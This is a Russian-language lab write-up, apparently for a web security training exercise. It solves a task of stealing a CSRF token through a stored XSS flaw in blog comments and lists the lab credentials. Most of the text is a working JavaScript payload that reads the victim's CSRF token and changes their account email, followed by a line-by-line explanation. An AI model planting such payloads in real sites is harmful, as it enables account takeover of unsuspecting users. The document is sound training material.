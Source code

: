 Эта лаборатория содержит сохраненную уязвимость XSS в функции комментариев блога. Чтобы решить эту лабораторную задачу, воспользуйтесь уязвимостью, чтобы украсть токен CSRF, который затем можно использовать для изменения адреса электронной почты того, кто просматривает комментарии к записи блога.

Вы можете войти в свою учетную запись, используя следующие учетные данные:`wiener:peter`

## Дано

- сохраненная уязвимость XSS в функции комментариев блога
- учётка wiener:peter
## Задача

- украсть токен CSRF, который затем можно использовать для изменения адреса электронной почты того
# Решение

1. Зайдём на учётку посмотрим функционал 
2. Испольузется csrf токен так же на куки включён httponly
3. Пишем скрипт в коментах
```
<script> 
var req = new XMLHttpRequest(); 
req.onload = handleResponse; 
req.open('get','/my-account',true); 
req.send();
function handleResponse() { 
	var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; 
	var changeReq = new XMLHttpRequest(); changeReq.open('post', '/my-account/change-email', true); changeReq.send('csrf='+token+'&email=test@test.com') 
	}; 
</script>
```

#### 1. **Создание XMLHttpRequest объекта**
```
var req = new XMLHttpRequest();
```
Здесь создается объект `XMLHttpRequest`, который позволяет отправлять HTTP-запросы на сервер и получать ответы без перезагрузки страницы.

#### 2. **Настройка обработчика ответа**
```
req.onload = handleResponse;
```
Устанавливается функция `handleResponse`, которая будет вызвана, когда запрос завершится и данные будут получены.

### 3. **Отправка GET-запроса**
```
req.open('get', '/my-account', true);
req.send();
```
Отправляется GET-запрос на эндпоинт `/my-account`. Этот запрос предназначен для получения HTML-страницы, содержащей CSRF-токен.

### 4. **Обработка ответа**
```
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
```
Когда ответ от сервера получен, функция `handleResponse` извлекает CSRF-токен из HTML-кода страницы. Это делается с помощью регулярного выражения, которое ищет строку вида `name="csrf" value="токен"` и извлекает значение токена.

### 5. **Создание нового XMLHttpRequest для изменения email**
```
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf=' + token + '&email=test@test.com');
}
```
После получения CSRF-токена создается новый `XMLHttpRequest` объект, который отправляет POST-запрос на эндпоинт `/my-account/change-email`. В теле запроса передаются CSRF-токен и новый email (`test@test.com`). Этот запрос изменяет email пользователя на указанный.

### Как это работает при XSS:

1. **Внедрение скрипта**:  Внедряем этот скрипт на страницу, которую просматривает жертва, используя уязвимость.
2. **Выполнение скрипта**: Когда жертва загружает страницу, скрипт автоматически выполняется в её браузере.
3. **Получение CSRF-токена**: Скрипт отправляет запрос на страницу `/my-account`, чтобы получить CSRF-токен, который необходим для выполнения изменений в аккаунте.
4. **Изменение email**: Используя полученный CSRF-токен, скрипт отправляет POST-запрос на изменение email пользователя на `test@test.com`.

